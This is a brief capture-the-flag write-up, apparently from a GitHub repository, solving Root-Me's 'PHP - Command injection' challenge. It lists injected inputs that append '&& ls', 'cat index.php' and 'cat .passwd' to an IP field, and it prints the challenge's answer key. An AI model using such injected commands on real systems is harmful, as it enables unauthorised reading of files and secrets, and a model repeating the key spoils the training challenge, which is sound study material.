

# [PHP - Command injection link](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)

## DONT OPEN My Solution IF YOU DON'T SOLVE IT

My Solution

<>
1. Use  command <code>127.0.0.1 && echo "-------------------------------" && ls && echo "---------------------------------------" && cat index.php</code>

2.viue page surse

3.Use command <code>127.0.0.1 && cat .passwd</code>

2. ❌ ❌ ❌ key ❌ ❌ ❌

    

    
Spoiler warning

        KEY : S3rv1ceP1n9Sup3rS3cure
    
    

        